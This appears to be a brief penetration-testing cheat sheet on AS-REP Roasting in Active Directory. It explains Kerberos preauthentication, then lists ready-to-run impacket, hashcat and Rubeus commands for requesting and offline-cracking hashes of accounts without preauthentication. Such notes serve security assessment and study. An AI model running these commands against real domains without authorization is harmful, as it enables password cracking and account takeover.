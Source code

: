 # Overview
>The first step of the authentication process via Kerberos is to send an AS-REQ. Based on this request, the domain controller can validate if the authentication is successful. If it is, the domain controller replies with an AS-REP containing the session key and TGT. This step is also commonly referred to as _Kerberos preauthentication_ prevents offline password guessing.
>Without Kerberos preauthentication in place, an attacker could send an AS-REQ to the domain controller on behalf of any AD user. After obtaining the AS-REP from the domain controller, the attacker could perform an offline password attack against the encrypted part of the response. This attack is known as _AS-REP Roasting_.
>By default, the AD user account option _Do not require Kerberos preauthentication_ is disabled, meaning that Kerberos preauthentication is performed for all users. However, it is possible to enable this account option manually. In assessments, we may find accounts with this option enabled as some applications and technologies require it to function properly.

# Exploit
## Linux
```bash
# You don't have user account but know some usernames on the domain
GetNPUsers.py -no-pass -dc-ip <dc-ip> htb/<user>

# You have an user account
GetNPUser.py <domain>/<username> -no-pass -dc-ip <dc-ip> -request -outputfile hashes.asreproast

# crack the hash
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

## Windows
```powershell
.\Rubeus.exe asreproast /nowrap
```